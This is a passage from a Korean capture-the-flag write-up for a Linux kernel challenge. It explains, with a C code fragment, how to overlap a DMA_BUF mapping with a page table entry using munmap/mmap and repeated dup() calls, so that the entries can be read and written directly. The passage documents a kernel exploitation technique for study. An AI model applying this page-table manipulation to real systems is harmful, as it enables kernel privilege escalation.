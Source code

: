 1. PTE를 할당받는 도중 DMA_BUF를 할당받음 (PTE 중간에 DMA_BUF가 존재하도록)
2. 위에서 말한 방법을 사용해 우리가 조작할 수 있는 PTE를 특정함. (이때 이 PTE의 영향을 받는 가상주소를 `evil`이라 함)
3. `evil`을 `munmap()`하고, `dma_buf`를 그 자리에 `mmap()`하면 우선 page 전체에 대한 읽기/쓰기가 가능해짐.
4. 마지막으로 한 번 더 `dup()`을 0x1000번 호출해 `dma_buf`가 가리키고 있는 page를 다음 page로 옮김. 이때 page 사이에 DMA_BUF를 할당했기 때문에 아마 다음 page는 또 다른 PTE일 것임
5. 이제 DMA_BUF에 쓰거나 읽으면 PTE를 조작하는 것과 동일함.

```c
// 이제 이 주소를 munmap()한 후 dma_buf로 mmap()하면
// 이 주소 전체에 대한 읽기/쓰기를 할 수 있게 됨
munmap(evil, 0x1000);
char *dma_buf = mmap(evil, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_POPULATE, dma_buf_fd, 0);

// 다음으로 한 번 더 dup() 호출을 통해 이제는 dma_buf가 가리키고 있는 page를
// 다음 페이지를 가리키도록 하면
// 다음 페이지에 있는 PTE를 dma_buf를 통해 접근해서 조작할 수 있음
for (int i = 0; i < 0x1000; i++) {
    if (dup(easy_fd) == -1) {
        fatal("dup");
    }
}
// 이제 dma_buf에 쓰고 읽으면 PTE를 조작할 수 있게 됨
```

<center>
    <img src="/assets/images/posts_img/writeups/m0lecon-2023-keasy/munmap_mmap.png" alt="munmap_mmap.png">
</center>
{% include gallery caption="`munmap()`, `mmap()` 호출 직후. 여기서 다시 `dup()`을 0x1000번 호출하면 <br> `dma_buf`가 `pages[20]`의 PTE를 가리키며 `pages[20]`의 PTE에 쓸 수 있다. (숫자는 예시)" %}


[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.